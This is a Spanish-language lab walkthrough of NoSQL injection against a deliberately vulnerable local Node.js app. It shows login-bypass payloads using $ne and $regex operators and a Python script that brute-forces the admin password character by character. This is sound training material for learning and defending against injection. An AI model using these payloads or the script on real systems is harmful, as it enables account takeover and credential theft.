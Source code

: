 Laboratorio NoSQLI

---
tags:
  - laboratoriopractico
  - nosql
  - nosqli
  - inyeccionnosql
---
----
# Preparando el laboratorio

Primero vamos a instalar el siguiente laboratorio del siguiente [repositorio](https://github.com/Charlie-belmer/vulnerable-node-app):

```bash
git clone https://github.com/Charlie-belmer/vulnerable-node-app
```

```bash
cd vulnerable-node-app
```

Ahora vamos a levantar el docker:

```bash
docker-compose up -d
```

Esperamos hasta que termine de hacer pull de las imagenes y armar el contenedor, que va ha estar en el puerto 4000

Cuando haya terminado ahora vamos a dirigirno al navegador para ver que efectivamente este todo cargado:

![[Pasted image 20231008222833.png]]

Ahora que vemos que todo está correcto procedemos hacer click en Populate/Reset DB:

![[Pasted image 20231008222920.png]]

![[Pasted image 20231008223032.png]]

Ahora vamos a login, abrimos el burpsuite y capturamos la petición:

```bash
burpsuite &>/dev/null & disown
```

![[Pasted image 20231008223300.png]]

![[Pasted image 20231008223325.png]]

Ahora haremos ctrl+r para enviarlo al repeater e ir probando las inyecciones nosql.

![[Pasted image 20231008223556.png]]

Ahí podemos ver que en el header admite json, la peticion por post es json, y podemos probar dandole click a send viendo la respuesta en la otra ventana, vamos a utilizar lo siguiente para poder entrar como admin:

Vamos a poner en "password": {"$ne":"admin"}, aqui decimos que la contraseña no es igual a admin cual no es la contraseña por ende es verdadero y veremos lo que pasa:

![[Pasted image 20231008223910.png]]

Tambien se puede hacer en el usuario en caso que no lo sepamos, ahora tambien en "usuario":{"$ne":"guest"}, que es un usuario que existe para ver con que usuario nos logea, en este si no tienes la suficiente información vas a logearte en cualquier usuario.

![[Pasted image 20231009070422.png]]

Ahora vamos a ver un ejemplo para poder hacer un scripts en python para poder obtener la contraseña:

Utilizando regex podemos obtener cuanto characteres tienen para poder poner un limite para ello usamos {"$regex":".{30}"} y vamos cambiando el valor hasta que no obtengamos errores:

![[Pasted image 20231009070853.png]]

Vemos que la contraseña no tiene 30 caracteres por lo que vamos a seguir probando hasta encontrar el limite:

![[Pasted image 20231009070953.png]]

Ahora sabremos que tenemos que limitar para encontrar la password de admin a 24, lo mismo podremos hacer con usuario y van probando, ahora vamos utilizar {"$regex":"^a"} el de aquí no es necesario ver cuando no salga error pero nos servirá para saber como va a funcionar nuestro script, va a ir caracter por  caracter hasta que salga el mensaje "Logged in as user", con ello sabemos que todo ok, y asi va a ir sumando caracteres hasta obtener la contraseña que sabemos que tiene 24 caracteres.

![[Pasted image 20231009071957.png]]

![[Pasted image 20231009071838.png]]

Ahora haremos el siguiente script y vemos el resultado:

```bash
nvim nosqli.py
```

```python 
#!/usr/bin/python3

from pwn import *
import time, signal, sys, string, requests


def def_handler(sig,frame):
    print("\n\n[+] Saliendo...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)


login_url = 'http://localhost:4000/user/login'
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():
    
    password = ''
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    sleep(2)

    p2 = log.progress("Password")

    for i in range(0,24):
        for character in characters:
            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password,character)
            headers = {'Content-Type': 'application/json'}
            
            p1.status(post_data)

            r = requests.post(login_url, headers=headers, data=post_data)

            if "Logged in as user" in r.text:
                password+=character
                p2.status(password)
                break

if __name__ == "__main__":

    makeNoSQLI()
```

![[Pasted image 20231009072322.png]]

Ya tenemos la password de admin vamos a comprobar si es cierto:

![[Pasted image 20231009072535.png]]

Fin:)
